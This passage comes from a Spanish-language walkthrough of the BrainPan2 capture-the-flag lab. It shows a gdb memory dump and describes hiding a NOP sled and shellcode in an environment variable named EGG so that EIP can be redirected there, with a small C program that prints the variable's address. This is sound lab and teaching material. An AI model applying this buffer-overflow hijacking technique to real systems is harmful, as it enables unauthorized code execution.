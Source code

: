 ```
0xbfffff64:	0x6172622f	0x61706e69	0x4f4c006e	0x4d414e47
0xbfffff74:	0x6e613d45	0x69736e61	0x2f3d5f00	0x2f727375
0xbfffff84:	0x2f6e6962	0x00626467	0x554c4f43	0x3d534e4d
0xbfffff94:	0x50003038	0x3d485441	0x6e69622f	0x2f3a2e3a
0xbfffffa4:	0x2f727375	0x3a6e6962	0x6962732f	0x414c006e
0xbfffffb4:	0x653d474e	0x53555f6e	0x4654552e	0x4c00382d
```

<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain9.jpg" width="80%"></img>


5. Colocar el  SHELLCODE

Al colocar las direcciones 0xbfffff04, 0xbfffff14, etc, direcciones en donde se encuentran los NOPS nuestra SHELLCODE no funciona. 
Leyendo sobre como solucionar este problema, al parecer se debe a que el BUFFER es muy pequeño para el tamaño de la SHELLCODE por lo que existe un "truco". El truco consiste en colocar lo NOPS y SHELLCODE en una variable de entorno, obtener la dirección de memoria de la variable de entorno y apunto el registro EIP a dicha dirección.

```
#include <stdio.h>
#include <stdlib.h>
 
int main(void)
{
  char *s = getenv("EGG");
  printf("EGG => %p\n", s);
  return 0;
}
```
> Debido a que no existe el compilador GCC en el computador BRAINPAN2, lo vamos a compilar en nuestro KALI y luego lo enviamos a BRAINPAN2.
